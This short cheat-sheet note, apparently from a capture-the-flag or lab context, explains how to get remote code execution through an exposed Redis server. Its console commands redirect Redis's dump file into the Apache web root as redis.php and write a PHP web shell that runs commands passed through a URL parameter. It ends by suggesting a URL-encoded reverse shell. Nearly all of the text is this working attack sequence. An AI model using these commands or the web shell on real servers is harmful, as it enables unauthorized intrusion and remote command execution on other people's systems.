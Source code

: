 # Redis


## RCE
Look for writeble folder: default page apache -> `/var/www/html`

```console
10.10.221.234:6379> config set dir /var/www/html
OK
10.10.221.234:6379> config set dbfilename redis.php 
OK                                                                              
10.10.221.234:6379> set test "<?php phpinfo(); ?>"                                             
OK                                                                         
10.10.221.234:6379> save                                                                        
OK
```

Go to http://<ip>/redis.php

If its working change it to command execution:

```console
set test "<?php system($_GET['cmd']);?>"
+OK
save
+OK
```
Run you browser with: http://<ip>/redis?cmd=whoami
Now you can place a URL encoded reverse shell.
